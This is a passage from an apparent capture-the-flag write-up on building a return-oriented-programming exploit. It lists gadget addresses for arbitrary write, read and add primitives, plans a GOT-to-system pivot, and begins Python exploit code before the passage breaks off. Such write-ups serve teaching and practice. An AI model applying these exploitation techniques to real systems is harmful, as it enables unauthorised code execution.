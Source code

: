 Thus, the challenge reduces down to a game of ROP chain creativity and gadget discovery.
For my exploit, I used the following powerful gadgets to create primitives.

#### Write-What-Where

For writing strings to memory, or additional ROP chain payloads to pivot into, I made use of the `scanf` gadget.
With `scanf("%[^\n]", pointer)`, we can write data to arbitrary locations in memory. The data just needs to be sent with our initial ROP chain to stay within the `stdin` of the process.
After `scanf` is called by our ROP chain, it will then start to read these pre-sent payloads one line per scanf call.

Furthermore, I had another gadget that could write to memory given control of a few registers.

```
; Arb Write
0x0000000000400fd3: mov qword ptr [rbp - 8], rax; mov rax, qword ptr [rbp - 8]; add rsp, 0x260; pop rbp; ret;
```

#### Read-Where

```
; Arb Read
0x0000000000400b7d: mov rax, qword ptr [rbp - 8]; add rsp, 0x10; pop rbp; ret;
```

#### Add-What-Where
```
; Arb Add
0x0000000000400888 : add dword ptr [rbp - 0x3d], ebx ; nop dword ptr [rax + rax] ; ret                     
```

#### Exploit
With these gadgets, we can perform a routine like so:

1. Use `Read-Where` to load a libc pointer from GOT into `rax`
2. Use `Write-What-Where` to write the libc pointer in `rax` into a writeable area in `.bss`
3. Use `Add-What-Where` to increment this libc pointer into our gadget (like system or execv)
4. Load a second stage rop chain into `.bss` and pivot to it

Here is the exploit that does this.

{% highlight Python %}
extra = "\n"
rdi = lambda x : p64(0x4010d3)+p64(x)
rsi = lambda x : p64(0x4010d1)+p64(x)*2
rbp = lambda x : p64(0x400828)+p64(x)
r15 = lambda x : p64(0x4010d2)+p64(x)
ret = lambda : p64(0x400829)

def arb_write(p, s):
    global extra
    # "%[^\n]" 0x4012F0
    rop = rdi(0x4012F0)
    rop+= rsi(p)
    rop+= p64(e.symbols["__isoc99_scanf"])
    rop+= p64(e.symbols["getchar"])
    extra += s+'\n'
    return rop

def arb_read_rax(p):
    rop = rbp(p+8)
    rop+= p64(0x400b7d)
    rop+= p64(0xdeadbeef)*3
    return rop
